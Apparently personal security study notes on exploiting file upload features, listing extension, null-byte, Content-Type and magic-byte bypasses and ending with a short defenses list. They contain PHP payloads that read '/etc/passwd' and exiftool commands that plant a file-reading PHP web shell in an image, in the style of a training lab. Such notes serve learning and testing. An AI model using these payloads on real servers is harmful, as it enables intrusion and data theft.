

# FILE UPLOAD

## File Upload

> The web application file upload feature doesn't validate the file properly and attacker use this to execute malicious code.

<figure><figcaption><p>File Upload</p></figcaption></figure>

### Conditions

> * A relevant action: uploading file to get RCE.
> * Method of attack: Modifying the file types.
> * Unpredictable Action:&#x20;
>   * Content Type response header: Using `Content-Type: multipart/form-data` for large binary data uploads can restrict malicious input.
>   * **Polyglot Web Shell Upload:** An attacker uploads a file that looks harmless (like a .jpg or .png image) but contains hidden malicious code. The server might only superficially check the file type and not the content inside. Tools like **exiftool** can be used to add malicious code in image file comments, which the server might then execute.&#x20;

### Blackbox

> Visits all the URLs
>
> > * Find the paraments to upload file.
> > * Identify the parameters for file upload.
> > * Check the content-type security header.


Walk through the web application to understand the behind logic.



> Blacklist bypass
>
> > * The developer blocks the extension of files like php etc using `$notallowed = array("php , asp")`
> > * When the user uploads file then the file extension is checked agiants the blacklist extensions
> > * if uploaded file extension is present in the blacklist then the web application rejects that file.
> >   * Check if the case sensitive is present.
> >   * if php is block rename into phtml and check, php has many valid extension&#x20;
>
> Whitelisting
>
> > * Only particular file is allowed to upload.
> > * `$allowedExtension = array("png")`
> > * This can be bypass using double extensions.
>
> Double Extension:&#x20;
>
> > * Use the two-file extension to trick the web application.
> > * Example: `file.jpg.exe`&#x20;
> >   * The web application view this file as an JPG images but its an executable files.
> >   * `file.png%00.php || exploit.jpg%00.php`
>
> Reverse Double Extension:
>
> > Example: `file.exe.jpg` >> same as Double Extension but in reverse order&#x20;
>
> Random Upper Case and Lower Case:&#x20;
>
> > * Use the Upper and Lower Case to trick the web application.
> > * Example: `FILE.EXE.JPG`
>
> Multiply dots:&#x20;
>
> > * Use two Dots to trick the web application to hide the real extension.
> > * Example: `FILE.tar.exe`&#x20;
>
> Whitespace Ing:&#x20;
>
> > * Use SPACES to trick the web application to hide the real extension.
> > * Example: `FILE .jpg.exe`
>
> New Line Characters:
>
>
>
> > * the new line `/n` to trick the web application.
> > * Example: `FILE/n.exe`
>
> Null Bytes:&#x20;
>
> > * Use to terminate the string in order to hide real extension `%00 or \0`.
> > * The Input only accepting JPG or any IMG filetype which can be prevent by Null Bytes Characters
> > * The Sanitization or security view the ending or after DOT file as an extension and before the DOT extension there is %00 Null Bytes which will remove after DOT in servers end
> > * Example: `FILE%00.exe`
>
> Slashes:&#x20;
>
> > * Use the `//` (slashes to create sub directory) to trick the web application to hide the real extension.
> > * Example: `FILE//FILENAME.exe`
>
> URL Encoding:&#x20;
>
> > * URL encoding or Double URL encoding.
> > * Example: `FILE%2E.exe`
>
> MIME (Multipurpose Internet Mail Extensions)
>
> * Its a standard for document format.Its help the broswer and server to understands how to handles different types of files.
>
> Common MIME Types
>
> > * **Text Files:**
> >   * `text/plain` - Plain text
> >   * `text/html` - HTML documents
> >   * `text/css` - Cascading Style Sheets (CSS)
> >   * `text/javascript` - JavaScript
> > * **Image Files:**
> >   * `image/jpeg` - JPEG images
> >   * `image/png` - PNG images
> >   * `image/gif` - GIF images
> >   * `image/svg+xml` - SVG images
> > * **Audio and Video Files:**
> >   * `audio/mpeg` - MP3 audio
> >   * `audio/ogg` - OGG audio
> >   * `video/mp4` - MP4 video
> >   * `video/ogg` - OGG video
> > * **Application Files:**
> >   * `application/json` - JSON data
> >   * `application/xml` - XML data
> >   * `application/pdf` - PDF documents
> >   * `application/zip` - ZIP archives
> >   * `application/octet-stream` - Binary data (generic)
>
> Content types of bypass
>
> > * Content types is HTTP request header which shows the information of files types.
> > * Using the burp suite the content type can be change to allowed ones and the files extension remain the same.
> > * Change the content-types header request to trick the web application
> >   * Example: `FILE.exe` and the content-type is `image/jpg`
> > * Two Content-type : Use the `content-type` wordlist and set two content-type to trick the web application.
> >   * Refer to `SecLists/content-type.txt` for varied Content-Type values.
> > * Content type-restricted change the extension of img to php or png etc
> >   * `<?php echo file_get_contents('/etc/passwd');?>`
> > * Upload the image file clear the image data and add the `<?php echo file_get_contents('/etc/passwd');?>.`
> > * Used Path Traversal in the file name `(..%2f) o`r `(%2e%2e52.file.php)`
>
> Magic Bytes:&#x20;
>
> * Its a bytes at the starting of file shows the file types, This bytes are special file format to help the operating system / web application knows the file types
>
> Common Bytes
>
> > * **PNG Image**:
> >   * Magic Bytes: `89 50 4E 47 0D 0A 1A 0A`
> >   * Hex: `89 50 4E 47 0D 0A 1A 0A`
> >   * ASCII: `‰PNG\r\n\x1A`
> >   * Description: PNG files start with these specific bytes.
> > * **GIF Image**:
> >   * Magic Bytes: `47 49 46 38`
> >   * Hex: `47 49 46 38`
> >   * ASCII: `GIF8`
> >   * Description: GIF files start with `GIF8`, followed by `37 61` (GIF87a) or `39 61` (GIF89a).
> > * **PDF Document**:
> >   * Magic Bytes: `25 50 44 46`
> >   * Hex: `25 50 44 46`
> >   * ASCII: `%PDF`
> >   * Description: PDF files start with `%PDF`.
> > * **ZIP Archive**:
> >   * Magic Bytes: `50 4B 03 04`
> >   * Hex: `50 4B 03 04`
> >   * ASCII: `PK\x03\x04`
> >   * Description: ZIP files start with `PK`
> > *   **Magic Bytes Example**:
> >
> >     ```php-template
> >     phpCopy codeJPEG Magic Bytes: FF D8 FF E0 00 10 4A 46 49 46 00 01
> >     Embedded PHP Code: <?php echo 'Malicious Code'; ?>
> >     ```
> >
> >
> > *   **Constructed File**:
> >
> >     ```php-template
> >     phpCopy codeHex:
> >     FF D8 FF E0 00 10 4A 46 49 46 00 01 ... 3C 3F 70 68 70 20 65 63 68 6F 20 27 4D 61 6C 69 63 69 6F 75 73 20 43 6F 64 65 27 3B 20 3F 3E ...
> >
> >     ASCII:
> >     ÿØÿà..JFIF.. ... <?php echo 'Malicious Code'; ?>
> >     ```
> >
> >     ####
> > *   #### Malicious File with Double Extensions and Null Byte Injection
> >
> >     A file may be named `image.png.php`, where the `.png` extension is used to bypass filters, but the actual code is PHP. Null byte injection can terminate the string early to hide the true extension.
> > *   **Example**:
> >
> >     ```php-template
> >     phpCopy codeFilename: image.png%00.php
> >     Content:
> >     PNG Magic Bytes: 89 50 4E 47 0D 0A 1A 0A
> >     Embedded PHP Code: <?php echo 'Malicious Code'; ?>
> >     ```
> > *   **Constructed File**:
> >
> >     ```php-template
> >     phpCopy codeHex:
> >     89 50 4E 47 0D 0A 1A 0A ... 3C 3F 70 68 70 20 65 63 68 6F 20 27 4D 61 6C 69 63 69 6F 75 73 20 43 6F 64 65 27 3B 20 3F 3E ...
> >
> >     ASCII:
> >     ‰PNG ... <?php echo 'Malicious Code'; ?>
> >     ```
> >
> >     ####
> > *   #### Malicious Polyglot File
> >
> >     Polyglot files are crafted to be valid in multiple contexts. For example, a file that is both a valid PNG and a valid ZIP archive can be used to bypass security checks.
> >
> >     **Example**:
> >
> >     ```php-template
> >     phpCopy codePNG Magic Bytes: 89 50 4E 47 0D 0A 1A 0A
> >     ZIP Magic Bytes: 50 4B 03 04
> >     Content:
> >     Embedded Malicious Code: <?php echo 'Malicious Code'; ?>
> >     ```
> >
> >
> > *   **Constructed File**:
> >
> >     ```php-template
> >     phpCopy codeHex:
> >     89 50 4E 47 0D 0A 1A 0A ... 50 4B 03 04 ... 3C 3F 70 68 70 20 65 63 68 6F 20 27 4D 61 6C 69 63 69 6F 75 73 20 43 6F 64 65 27 3B 20 3F 3E ...
> >
> >     ASCII:
> >     ‰PNG ... PK.. ... <?php echo 'Malicious Code'; ?>
> >     ```
>
> NTFS Data Steam:&#x20;
>
> > Its allows files to contain more then one streams data, This can be used to hide a data with additional in a files
> >
> > * `echo "This is hidden data" > FILE.txt:hiddenfile.exe`
> >   * `File.txt` is a primary file which is goes to be uploaded
> >   * `:hiddenfile.exe` is the hidden data stream attached to file.exe
>
> Polyglot web shell
>
> > * File that trick web application into thinking it is there is more then one type of files.
> > * A files which looks harmless and have hidden instructions to execute code.
> > * Steps
> >   * Change the parameters of the image
> >     * Modify the file to act both image (PNG) and executable code(PHP).
> >   * Use Polyglot
> >     * Create a file with MIME type PNG but with PHP code executing malicious code.
> >   * Add PHP code Using EXIF Tools
> >     * Use the EXIF Tool to add PHP code into the image meta data hiding the code within an image file.
> >       * add the code into image comment
> >         * `exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardian.png`
> >       * Output the modify images as PHP file
> >         * `exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardian.png -o shadowguard.php`
>
> ```
> exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardain.png
> exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardain.png  -o shadowguard.php
> exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php/
> exiftool -comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" input.jpg -o polyglot.php
>
> ```
>
>

### Defenses

> BlackList
>
> > * The developer used to block files like php etc using the $notallowed =array("php,asp")
> > * When the user uploads file then the file extension is checked agiants the blacklist extensions
> > * If uploaded files extension is present in blacklist then the web application rejects that files.
>
> Whitelisting
>
> > * Only particular files is allowed to uploads
> > * $allowedExtension =array("png")
>
> Content-Types HTTP Header
>
> > Its an HTTP Header request which shows the information of files types.
>
> Sanitized Path Teversal:
>
> > replace the path Teversal string like "`../`" into null.
>
> Rename Uploaded File:
>
> > Change the uploaded file name so its cause any problem of having same name which cause overwrite of files.
>
> Defense in Dept:
>
> > The web application with the minimum privileges.

## MindMap


Insecure File Upload

